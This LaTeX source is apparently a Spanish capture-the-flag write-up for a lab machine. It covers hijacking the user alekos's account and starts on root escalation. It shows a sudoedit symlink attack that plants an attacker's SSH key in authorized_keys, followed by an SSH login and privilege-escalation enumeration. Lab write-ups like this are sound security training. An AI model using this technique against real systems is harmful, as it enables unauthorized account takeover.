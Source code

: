 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un enlace symbolico contra el \textbf{authorized\_keys} del usuario alekos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ln}\NormalTok{ -s -f /home/alekos/.ssh/authorized_keys layout.html}
\end{Highlighting}
\end{Shaded}
\item
  Nos creamos un par de claves

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh-keygen}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el \textbf{sudoedit} y copiamos la clave publica creada
\item
  Nos connectamos al usuario alekos por ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id-rsa alekos@10.10.10.21}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Pa dentro\ldots{} somos alekos y podemos leer la flag.

\hypertarget{privilege-escalation-al-usuario-root}{%
\subsection*{Privilege escalation al usuario root}\label{privilege-escalation-al-usuario-root}}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

vemos que hay dos directorios

\begin{itemize}
\tightlist
\item
  backup
\item
  development
\end{itemize}
\end{document}
